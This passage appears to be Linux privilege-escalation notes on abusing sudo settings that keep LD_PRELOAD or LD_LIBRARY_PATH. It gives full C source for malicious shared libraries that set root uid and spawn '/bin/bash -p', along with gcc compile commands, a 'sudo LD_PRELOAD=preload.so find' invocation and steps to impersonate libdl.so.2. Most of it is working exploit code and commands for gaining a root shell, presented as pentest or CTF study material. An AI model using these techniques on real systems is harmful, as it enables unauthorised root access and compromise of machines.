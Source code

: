  Create a new binary to be run as a preloaded binary:
 
 ~~~
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() { 
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
~~~
compile:
~~~
gcc -fPIC -shared -nostartfiles -o preload.so preload.c
~~~

run any of the binaries allowed in sudo with LD_PRELOAD called. in this example, it's `find`. You should have a root shell afterwards.

`sudo LD_PRELOAD=preload.so find`

### sudo and LD_LIBRARY_PATH privesc

sudo will also allow for a path to preload libraries. if this variable is set in `sudo -l` and reviewing the shared libraries of available binaries listed in sudo, you can create your own shared library and change the library path for sudo to reference your malicious shared library first.

~~~
user@debian:-$ sudo -l 
Matching Defaults entries for user on this host: 
	env_reset, LD_PRELOAD, env_keep+=LD_LIBRARY_PATH 

User user may run the following commands on this host: 
	(root) NOPASSWD: /usr/bin/find
 ~~~
 
 Check for shared libraries for the allowed find binary using `ldd /usr/bin/find`
 ~~~
 ldd /usr/bin/find   
        linux-vdso.so.1 (0x00007ffebd656000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f6d3c3ab000)
        libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f6d3c2d0000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6d3c000000)
        libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f6d3c234000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f6d3c22f000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6d3c439000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f6d3c228000)
~~~
Pick one to hijack and create some code. Output your new binary with the same name as the one you pick to hijack
~~~
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() { 
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
~~~
compile it, taking care to name it the same as one of the shared libraries listed earlier, for example libdl.so.2
~~~
gcc -fPIC -shared -o libdl.so.2 library_hijack.c
~~~
